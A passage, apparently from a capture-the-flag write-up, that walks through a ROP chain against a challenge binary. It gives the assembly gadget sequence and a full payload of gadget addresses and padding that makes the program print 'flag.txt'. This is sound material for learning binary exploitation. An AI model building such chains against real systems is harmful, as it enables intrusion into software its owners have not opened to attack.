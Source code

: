 which moves `rax` into `rbx`, then

```asm
mov    rdi, rbx
call   r12
```

which moves `rbx` into `rdi` and calls whatever code is pointed to by `r12`.
Since `r12` was the target of a pop instruction in the first of these two
gadgets, we can use that gadget to inject the location of `printFile`.

Putting all these gadgets together, our ROP chain should result in the following
sequence of instructions being executed:


```asm
pop    rax                        ; Pops 0x41aa18 into rax
ret                               ; Return to 0x4247aa
push   rsp
and    al, 0x18
mov    QWORD PTR [rsp+0x10], r8
call   rax                       ; Call 0x41aa18
mov    eax, 0xffffffff
pop    rbx
pop    rbp
ret                               ; Return to 0x491652
mov    rax, rbp
pop    rbx
pop    rbp
ret                               ; Return to 0x401a72
pop    rdi                        ; Puts -0x235 into rdi
ret                               ; Return to 0x431e83
lea    rax, [rax+rdi*1+0x20]      ; Offset rax to point at "flag.txt"
ret                               ; Return to 0x456805
push   rax
pop    rbx                        ; We've moved rax into rbx
pop    rbp
pop    r12                        ; Puts printFile into r12
pop    r13
pop    r14
ret                               ; Return to 0x458224
mov    rdi, rbx                   ; Moves pointer to "flag.txt" into rdi
call   r12                        ; Calls printFile
```

I've included an extra gadget at the beginning of the chain that pops from the
stack into `rax`, since we need a valid pointer in this register when the `call
rax` instruction is executed.

As far as the payload is concerned, we need to include the following sequence of
eight byte words:

```text
0x00000000004522e7  ; pop rax; ret
0x000000000041aa18  ; mov eax, 0xffffffff ; pop rbx ; pop rbp ; ret
0x00000000004247aa  ; push rsp ; and al, 0x18 ; mov qword ptr [rsp + 0x10], r8 ; call rax
0x0000000000491652  ; mov rax, rbp ; pop rbx ; pop rbp ; ret
0x0000000000000000  ; Padding, popped into rbx
0x0000000000000000  ; Padding, popped into rbp
0x0000000000401a72  ; pop rdi; ret
0xfffffffffffffdcb  ; Two's complement representation of -0x235, used in lea instruction
0x0000000000431e83  ; lea rax, [rax + rdi + 0x20] ; ret
0x0000000000456805  ; push rax ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; ret
0x0000000000000000  ; Padding, popped into rbp
0x0000000000401fac  ; Address of printFile, popped into r12
0x0000000000000000  ; Padding, popped into r13
0x0000000000000000  ; Padding, popped into r14
0x0000000000458224  ; mov rdi, rbx ; call r12
```
